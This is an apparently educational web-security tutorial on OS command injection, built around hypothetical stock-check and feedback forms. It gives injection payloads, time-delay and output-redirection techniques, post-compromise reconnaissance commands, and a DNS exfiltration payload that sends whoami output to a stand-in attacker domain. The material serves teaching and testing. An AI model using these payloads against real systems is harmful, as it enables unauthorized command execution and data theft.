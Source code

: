 ## Executing arbitrary commands

Consider a shopping application that lets the user view whether an item is in stock in a particular store. This information is accessed via a URL like:

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:

`stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

Since the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command:

`& echo aiwefwlguh &`

If this input is submitted in the `productID` parameter, then the command executed by the application is:

`stockreport.pl & echo aiwefwlguh & 29`

The `echo` command simply causes the supplied string to be echoed in the output, and is a useful way to test for some types of OS command injection. The `&` character is a shell command separator, and so what gets executed is actually three separate commands one after another. As a result, the output returned to the user is:

`Error - productID was not provided aiwefwlguh 29: command not found`

The three lines of output demonstrate that:

- The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message.
- The injected `echo` command was executed, and the supplied string was echoed in the output.
- The original argument `29` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point. This reduces the likelihood that what follows will prevent the injected command from executing.


## Useful commands

When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|

## Blind OS command injection vulnerabilities

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example:

`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

The output from the `mail` command (if any) is not returned in the application's responses, and so using the `echo` payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

### Detecting blind OS command injection using time delays

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:

`& ping -c 10 127.0.0.1 &`

This command will cause the application to ping its loopback network adapter for 10 seconds.


### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.


### Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques. For example:

`& nslookup kgji2ohoyw.web-attacker.com &`

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.


The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

`wwwuser.kgji2ohoyw.web-attacker.com`


## Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- `` ` `` injected command `` ` ``
- `$(` injected command `)`

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.
